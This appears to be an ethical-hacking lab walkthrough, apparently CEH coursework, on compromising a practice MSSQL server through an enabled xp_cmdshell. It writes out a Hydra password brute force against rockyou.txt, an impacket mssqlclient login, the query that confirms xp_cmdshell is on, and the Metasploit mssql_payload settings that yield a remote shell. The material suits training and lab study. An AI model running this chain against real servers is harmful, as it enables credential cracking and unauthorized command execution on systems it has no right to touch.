 
**xp_cmdshell** is a SQL server stored procedure enabling command shell execution. Misconfigured xp_cmdshell can lead to arbitrary command execution, data exfiltration, and potential network compromise, posing significant security risks. Proper configuration and security measures are crucial to mitigate these risks

During the Nmap scan, we observed that host **10.10.1.30** (which is **Windows Server 2019 (AD)** virtual machine) has port **1433** open. We will attempt to brute force the password using **Hydra**, as we already know the username, which is **SQL_srv**

In the **Parrot Security** machine login with **attacker/toor** credentials.Open a new **Terminal** window and execute **sudo su** to run the programs as a root user (When prompted, enter the password **toor**)

Save the username **SQL_srv** in a text file and name it as **user.txt** using command **pluma user.txt**

Execute command **hydra -L user.txt -P /root/ADtools/rockyou.txt 10.10.1.30 mssql** to brute force the MSSQL service password

We have successfully cracked the password for **SQL_srv**, which is "**batman**". Next, we will attempt to log into the service using **mssqlclient.py**

Execute command **python3 /root/impacket/examples/mssqlclient.py CEH.com/SQL_srv:batman@10.10.1.30 -port 1433**
Note the database name, which is "**master**" here

Execute the SQL query **SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name='xp_cmdshell';**, returning a value of 1, indicating that xp_cmdshell is enabled on the server

Now, as we know that **xp_cmdshell** is enabled on SQL server we can use Metasploit to exploit this service. Type **exit** and press **Enter**; then execute the command **msfconsole** to launch Metasploit

Execute the following commands:

- **use exploit/windows/mssql/mssql_payload**
- **set RHOST 10.10.1.30**
- **set USERNAME SQL_srv**
- **set PASSWORD batman**
- **set DATABASE master**

Once all commands are configured, type **exploit** and press **Enter**

Type command **shell** and press **Enter**. 

Execute **whoami** command, to determine the username of the currently logged on user. Here, it is $sqlexpress which is the SQL service






